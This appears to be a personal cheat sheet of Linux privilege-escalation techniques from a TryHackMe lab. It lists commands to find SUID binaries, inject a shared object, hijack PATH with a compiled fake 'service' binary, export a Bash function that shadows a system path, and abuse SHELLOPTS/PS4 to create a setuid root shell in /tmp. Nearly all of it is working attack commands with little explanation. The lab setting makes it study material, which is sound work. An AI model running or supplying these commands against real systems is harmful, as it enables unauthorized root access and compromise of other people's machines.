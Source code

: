 
### Dirty Search for SUID executables

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

find / -user root -perm -4000 -exec ls -ldb {} \;
```

### Compile SUID Bypass - Shared Object Injection

Reference the L_* section for specific C syntax. This
``` bash
strace /usr/local/bin/<thisiswherethepotentialvulnerablesharedobjectintect_SUIDexecutablegoes> 2>&1 | grep -iE "open|access|no such file"
```

Create the searched for application. Example from Tryhackme was `libcalc.c` in the `~/tools/suid/` directory. Compile a reverse shell or a local root shell if available.

### Environment Variable Abuse

SUID executables that don't specify the absolute path may be susceptible to exploitation

```bash
strings /usr/local/bin/<pathmisconfiguredSUIDexecutable>
```

The example explained states that the apache2 webserver start only calls **service** vs `/usrsbin/service`

so we compile a shell to be nasty/

```bash
gcc -o service /home/user/tools/suid/service.c

 ##then prepend the PATH variable to where the new compiled service is:

PATH=.:$PATH /usr/local/bin/suid-env
```

### Shell Abuse

_In Bash versions_ **_<4.2-048_** _it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path._

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

_Bash <4.4 can use debugging mode to establish a SUID version of_ `/bin/bash`

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2

###Then run the shell created####
/tmp/rootbash -p
```